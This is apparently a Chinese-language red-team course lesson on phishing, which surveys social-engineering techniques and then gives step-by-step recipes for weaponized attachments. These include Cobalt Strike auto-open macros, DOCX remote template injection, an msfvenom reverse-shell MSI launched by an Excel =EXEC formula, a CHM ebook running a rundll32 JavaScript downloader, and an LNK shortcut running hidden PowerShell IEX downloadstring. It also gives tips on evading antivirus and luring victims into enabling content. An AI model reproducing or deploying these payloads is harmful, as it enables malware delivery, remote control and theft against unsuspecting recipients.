


day7-社工钓鱼技术（上午：钓鱼技巧与制作）
前言：
网络钓鱼是最常见的社会工程学攻击方式之一。所谓社会工程学，是一种通过对受害者心理弱点、本能反应、好奇心、信任、贪婪等心理陷阱进行诸如欺骗、伤害等危害手段。在生活工作中，最常使用的邮件、各种文档也成为黑客常用的攻击载体。近些年来，网络钓鱼攻击趋势也一直呈增长趋势，特别是在APT攻击、勒索软件攻击等事件中，扮演了重要的角色。
钓鱼常用技巧
邮件钓鱼
钓鱼邮件指利用伪装的电邮，欺骗收件人将账号、口令等信息回复给指定的接收者；或引导收件人连接到特制的网页，这些网页通常会伪装成和真实网站一样，如银行或理财的网页，令登录者信以为真，输入信用卡或银行卡号码、账户名称及密码等而被盗取。
钓鱼WIFI
仿造一个假的wifi，欺骗用户登陆，之后窃取用户信息。
伪基站
又称假基站、假基地台，是一种利用GSM单向认证缺陷的非法无线电通信设备，主要由主机和笔记本电脑组成，能够搜取以其为中心、一定半径范围内的GSM移动电话信息，并任意冒用他人手机号码强行向用户手机发送诈骗、推销等垃圾短信，通常安放在汽车或者一个比较隐蔽的地方发送。
标签钓鱼
标签钓鱼(tabnabbing)是一种新的网络钓鱼攻击手法，该攻击手法是由Mozilla Firefox浏览器的界面及创意负责人Aza Raskin发现和命名的，tabnabbing可改变用户浏览网页的标签及接口，以诱导用户输入网络服务的账号与密码。
鱼叉式网络钓鱼
这是指一种源自于亚洲与东欧，只针对“特定的目标”进行的网络钓鱼攻击！简而言之就是组织一次有目性的，对特定的单位进行钓鱼攻击。
水坑攻击
”水坑攻击”，黑客攻击方式之一，顾名思义，是在受害者必经之路设置了一个“水坑(陷阱)”。最常见的做法是，黑客分析攻击目标的上网活动规律，寻找攻击目标经常访问的网站的弱点，先将此网站“攻破”并植入攻击代码，一旦攻击目标访问该网站就会“中招”。
U盘钓鱼
简单来说，就是在U盘里面植入木马或者病毒，进行钓鱼上线。常见的攻击手法就是把U盘扔在目标单位门口，或者你可以社工员工地址信息并邮寄给他。亦或者，可以像某黑客电影或者黑客游戏一样，想办法进入对方大厦到工位电脑上插U盘上马。
钓鱼附件制作
Office宏
宏是Office自带的一种高级脚本特性，通过VBA代码，可以在Office中去完成某项特定的任务，而不必再重复相同的动作，目的是让用户文档中的一些任务自动化。由于早些年宏病毒泛滥，现在Office的宏功能已经默认是禁用，但依然无法阻挡攻击者使用宏。那么如何引诱受害者开启宏功能就是关键了，常用的套路:
- 文档是被保护状态，需要启用宏才能查看；
- 添加一张模糊的图片，提示需要启用宏才能查看高清图片；
- 提示要查看文档，按给出的一系列步骤操作；
- 贴一张某杀毒软件的Logo图片，暗示文档被安全软件保护。
cobalt strike 生成宏

选择好设置的监听器后 复制宏代码
创建 docx 文件 选择自定义功能
勾选上 开发工具
创建宏 填写名字 宏的位置在当前文件名。
将生成好的宏代码复制到文件里 选择 auto_open 自动打开
存为 dotm 文件
测试宏
将文件发送给受害者，如果受害者打开。

提示宏被禁用 如果用户点击启动内容。Cobal tstrike 就会获得受害人的 beacon
可以看到受害者已经中了后门，可以对用户进行其他方面的操作。
利用DOCX文档远程模板注入执行宏
与传统的宏启用文档相比，这种攻击的好处是多方面的。在对目标执行网络钓鱼攻击时，您可以将.docx的文档直接附加到电子邮件中，并且您不太可能根据文件的拓展名去阻止它。许多组织机构阻止以.doc或.docm为拓展名的文档却允许.docx文档，是因为它们不会包含宏。这种攻击更常见另一个原因可能是因为附件本身不包含恶意代码，任何静态电子邮件扫描程序都不会看到宏本身，因此不太可能被阻止。从而能过很多静态的检测。
方法：
想要开始此攻击，我们需要创建两个不同的文件。第一个是启用宏的模板，或是.dotm文件，它将包含恶意VBA宏。第二个是看似没有危害的.docx文件，它本身不包含恶意代码，只有指向恶意模板文件的目标链接。
1.创建 dotm 文件
新建文件 docx 文件 选择 VIsual Basi
2.双击ThisDocument，把CS的代码粘贴到里面，另存为dotm文件
3.将文件上传到攻击者服务器，使用python启动web服务
python3 -m http.server 8877
4.创建一个正常的word文件，在开始处，选择一个模板
5.将其后缀改成zip，然后解压，修改 word\_rels\settings.xml.rels 里的 Target 改成 dotm 文件的访问网址
6.再次压缩之后，将其改为正常的docx文档，必需要在此目录全选之后压缩
7.执行测试
将文档发送给受害者之后，docx 文件是会从远程加载的宏文件，这时候需要点击是
8.启用文件后 就会获得受害者的用户权限。这种方法 docx 避免杀毒软件查杀，而 且隐蔽
Excel的展示
Excel跟 word文档 一样都是支持宏，所以一样存在宏病毒。当我们把恶意的宏代码嵌入 Excel 中，用户打开 Excel 文件里的宏就会被触发。
metasplosit 生成 msi 文件
1 | msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.88.133 lport=3223 -f msi -o hack.msi |
开启监听器
1 | use exploit/multi/handler |
打开 excel 底部右键插入宏表
简单演示打开以下计算器
=EXEC(“calc.exe”)
1 | =EXEC("msiexec /q /i http://192.168.88.133:8877/hack.msi") |
更改单元格名为 Auto_Open
隐藏起来
保存为22.xlsm
双击打开后，宏会恶意请求远程服务器 msi 文件自动下载运行。

成功上线
CHM文档
CHM介绍
CHM（Compiled Help Manual）即“已编译的帮助文件”。它是微软新一代 的帮助文件格式，利用 HTML 作源文，把帮助内容以类似数据库的形式编译储 存。CHM 支持 Javascript、VBscript、ActiveX、Java Applet、Flash、常见图形文 件(GIF、JPEG、PNG)、音频视频文件(MID、WAV、AVI)等等，并可以通过 URL 与 Internet 联系在一起。因为使用方便，形式多样也被采用作为电子书的格式。 Chm 文件因何变得危险，此文件可以被植入可执行代码。成功的利用需要欺骗用户打开恶意的CHM文件，该文件可用于执行恶意代码。其缺点就是打开时会出现弹黑框、卡顿，容易被察觉。
在正式打造我们的电子书木马前，我们先分析一下它的“优点”吧！
一：因为电子书一般是在本地电脑域打开的，因此它所获得的权限也是本地 电脑域的权限，所以比起网页木马的 Internet 域来，让木马获得执行的机会要简 单的多,“不必使用漏洞”就可以执行，从而也就不会被杀毒软件查杀，如果你 的木马程序够好的话。也不必担心别人打了补丁。
二：现在的网页木马由于影响力太大，一般的人上网都会小心三分提防的， 且它依赖于漏洞，所以生存的空间正在逐渐缩小，与此相反的是电子书的火爆下 载，使得电子书木马的传播能力以及范围大大加强。
三：由于木马程序嵌入电子书里，一般的杀毒软件无法对其中存在的木马病 毒等破坏性程序进行检查和清除，至少我还没发现有哪个软件可以做到这点，而且如果对这类电子书进行检查，杀毒所需时间也会过长。
四：还有最后一点就是，网页木马一般都要自己辛辛苦苦的去传播，并且站点随时可能被关闭，而电子书却可以让许多大的下载站点做贡献。获得长久时间 的传播，当然前提是这本电子书够精彩。
制作 chm 钓鱼文件
项目地址 https://github.com/Ridter/MyJSRat
这个工具是用 python2 编写，脚本修改分为两个模式，交互模式以及执行命令模 式。大多数情况使用交互模式。
本地监听
1 | python MyJSRat.py -i 192.168.88.133 -p 8085 |
访问：http://192.168.88.133:8085/wtf ，访问 wft 这就是恶意代码可以嵌入 chm 电子书里，注意：需要在rundll32.exe后添加一个逗号
1 | rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();h=new%20ActiveXObject("WinHttp.WinHttpRequest.5.1");h.Open("GET","http://192.168.88.133:8084/connect",false);try{h.Send();b=h.ResponseText;eval(b);}catch(e){new%20ActiveXObject("WScript.Shell").Run("cmd /c taskkill /f /im rundll32.exe",0,true);} |
制作 chm 电子书
Easy CHM 是一款 CHM 电子书或 CHM 帮助文件的制作工具，只需三步即可完 成 CHM 的制作，用户只需指定相应目录，该软件将会导入该文件夹内所有文件， 然后用户就可以设置 CHM 编译选项、开始制作。EasyCHM 可用于个人或者单 位制作高压缩比的带有全文检索及高亮显示搜索结果的网页集锦、CHM 帮助文 件、专业的产品说明、公司介绍、CHM 电子书等等
钓鱼 payloay
将下面的payload保存为html文件放到一个文件夹中
1 | <!DOCTYPE html><html><head><title>diaoyuceshi</title><head></head><body> |
打开 Easy CHM 新建->浏览->选择目录
编译根据需求设置好选项后，生成chm 即可。

当受害人打开制作有后门的 chm 电子书，即可获取受害者的权限
结果

LNK文件
LNK（快捷方式或符号链接）是引用其他文件或程序的方法，最著名的就是震网病毒（Stuxnet）中的利用，在最新的利用样本也有很多。
钓鱼制作
1.生成powershell上线的payload
选择监听器

1 | powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://192.168.88.133:80/a'))" |
在桌面创建快捷方式 右键 目标填写 payload
1 | C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://192.168.88.133:80/b'))" |

更改图标
为了让快捷方式伪装的像诱导文件，可以选择更改图标
1 | %SystemRoot%\System32\SHELL32.dll |
当受害者双击打开 就是执行恶意的 powershell
